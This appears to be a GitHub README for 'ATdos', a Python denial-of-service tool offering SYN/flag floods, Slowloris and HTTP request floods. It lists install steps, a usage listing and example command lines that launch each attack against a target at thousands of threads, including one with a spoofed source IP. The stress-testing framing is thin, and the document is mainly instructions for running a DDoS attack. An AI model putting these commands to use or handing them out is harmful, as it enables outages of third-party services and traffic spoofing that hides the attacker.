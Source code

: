 [![](https://img.shields.io/badge/NACG-ATdos-blue)](http://github.com/NACG-Mohr/CJan-Ge)
<h1 align="center">ATdos</h1>

This a very powerful denial of service (DDoS) program. It is very efficient and portable, it is stable and useful for stress-testing companies, it currently has three attack methods. 1) SYN/ICMP with 6 flags including fin, syn, rst, ack, psh and urg. 2) Slowloris/SLOW uses sock.connect to attack. 3) Request/Requester uses httplib to attack. You either choose one of the three attack methods or you can choose all three!   
## Getting Started

You will need a few different modules installed to execute Overload.

### Modules

You will have to use pip to install the modules, colorama, termcolor & requests
```
sudo apt-get install python-pip
```
```
sudo yum install python-pip
```
### Module Installing

Using pip you can install the following modules

```
sudo pip install colorama termcolor requests
```


## Install ATdos

```
git clone https://github.com/nacgalevin/ATdos
```
```
cd ATdos
```
```
chmod +x *
```
```
./install.py
```
## Usages
```
usage: ./ATdos.py -target [target] -port [port] -threads [number threads]

optional arguments:
  -h, --help           show this help message and exit

options:

  -target <ip/domain>  Specify your target
  -timeout <timeout>   Timeout for socket
  -threads <threads>   Set threads number for connection (default = 1000)
  -port <port>         Specify port target (default = 80)
  -sleep <sleep time>  Set sleep time for reconnection
  -spoof <spoofed ip>  Specify spoofed IP address
  -request             Enable request target
  -syn                 Enable syn attack
  -slow                Enable slow attack
  -fakeip              Option to create fake ip if not specifed for spoofed ip
```
## Examples
Slowloris/SLOW attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -slow
```
Request/Requester attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request
```
SYN/6 flagged ICMP attack method
```
./ATdos.py -target www.target.com -syn -threads 5000
```
SLOW/Request/SYN attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn
```
SLOW/Request/SYN spoofed IP attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn -spoof 8.8.8.8
```